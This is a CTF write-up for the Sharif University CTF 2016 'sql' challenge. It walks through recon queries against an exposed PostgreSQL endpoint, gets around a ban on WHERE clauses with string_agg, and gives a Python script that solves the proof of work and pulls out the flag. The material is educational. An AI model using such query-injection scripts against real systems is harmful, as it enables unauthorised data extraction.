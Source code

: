 ```yaml
---
title: 'Sharif University CTF 2016: sql (pwn 150)'
date: 2016-02-07 00:00:00 Z
categories:
- writeup
tags:
- cat/web
- lang/sql
- misc/pofw
layout: post
author: f0rki
---
```


* **Category:** pwn
* **Points:** 150
* **Description:**

> Our website http://ctf.sharif.edu:36455/chal/sql/ executes your PostgreSQL
> queries. And flags are nicely formatted.

## Write-up

We were presented with a simple form for a SQL query string and were given a
proof of work challenge. Apparently we can execute arbitrary SQL queries if we
can compute the proof of work. As it turns out there wasn't more to do than
this. I really don't know why this was categorized as `pwn`, because it really
is a `web` challenge.

Step 1 was to copy-paste proof of work code from a past CTF. We can then submit
arbitrary queries and are only restricted by the permissions of the database
user. The organizers were so nice and told us it is PostgreSQL. So first some
recon queries:

```
sql> select version()
PostgreSQL 9.4.5 on x86_64-unknown-linux-gnu, compiled by gcc (Ubuntu 4.9.2-10ubuntu13) 4.9.2, 64-bit

sql> SELECT current_database()
sql_limit_ctf_question

sql> select * from information_schema.tables
sql_limit_ctf_question | pg_catalog | pg_type  | BASE TABLE |||| YES | NO |
sql_limit_ctf_question | public     | messages | BASE TABLE |||| YES | NO |
sql_limit_ctf_question | public     | mydata   | BASE TABLE |||| YES | NO |

sql> select count(*) from mydata
0

sql> select count(*) from messages
100000

sql> select count( distinct msg) from messages
96519

sql> select * from messages
```

We only receive the first 3 rows from the output. And messages seems to be
filled with some random garbage. The description mentioned that the flag is
nicely formatted. So maybe one of the messages contains the flag.

```
sql> select * from messages where msg like 'Sharif%'
Search is not allowed.
```

So apparently our current database user isn't allowed to put `where` into
queries. That makes it kind of hard to retrieve the messages. We could fetch
all the rows, three at a time with

```
select * from messages limit 3 offset X
```

But this would take ages, because we have to compute the proof of work. So
there has to be another way. After a little bit of googling I found the
interesting function: `string_agag`. This function allows us to concatenate all
fields from a query into a single string. With the following query we can fetch
all messages, separated by a `, `.

```
select string_agg(msg, ', ') from messages
```

Now it was just a matter of search for the flag and it turns out we got lucky
:) We used the following python script to compute the proof of work, send
queries and fetch the flag:


```python
import requests
import re
import os
import hashlib
import sys
from pwn import log

URL = "http://ctf.sharif.edu:36455/chal/sql/"
NONCERE = re.compile("Nonce: ([a-zA-Z0-9]+) ")
FLAGRE = re.compile("[sS]harif[cC][tT][fF]{.+}")


def proof_of_work(chal, rlen=30, forbidden_chars="", hashfunc=hashlib.sha1):
    i = 0
    maxiter = 2 ** 28
    while i < maxiter:
        i += 1
        s = os.urandom(rlen)
        for c in forbidden_chars:
            s = s.replace(c, "")
        h = hashfunc()
        h.update(s)
        h.update(chal)
        digest = h.hexdigest()
        if digest.startswith("00000"):
            log.info("found proof of work after {} iterations"
                     .format(i))
            return s
    log.critical("couldn't find matching proof of work after {} iterations"
                 .format(i))
    return None


def run_query(query):
    log.info("Running query:\n{}".format(repr(query)))
    s = requests.session()
    resp = s.get(URL)
    m = NONCERE.search(resp.text)
    if not m:
        print("Received:")
        print(resp.text)
        raise Exception("No nonce found in response!")
    nonce = m.groups()[0]
    log.info("got nonce '{}', computing proof of work".format(nonce))
    pofw = proof_of_work(nonce)
    if not pofw:
        return None
    log.info
    resp = s.post(URL, data={"pow": pofw, "sql": query})
    return resp.text


if __name__ == "__main__":
    #r = run_query("SELECT version()")
    #log.info("received:\n" + str(r))
    if len(sys.argv) > 1:
        for i, q in enumerate(sys.argv[1:]):
            r = run_query(q)
            log.info("received:\n" + str(r))
            if r:
                fname = "output{}.html".format(i)
                log.info("Writing response to " + fname)
                with open(fname, "w") as f:
                    f.write(str(r))

    log.info("Now fetching flag:")
    res = run_query("select string_agg(msg, ', ') from messages")
    for flagcandidate in FLAGRE.findall(res):
        log.info(flagcandidate)

```

Running the script:

```
[*] Now fetching flag:
[*] Running query:
    "select string_agg(msg, ', ') from messages"
[*] got nonce 'c41bcb2185', computing proof of work
[*] found proof of work after 354166 iterations
[*] SharifCTF{f1c16ea7b34877811e4662101b6a0d30}
```

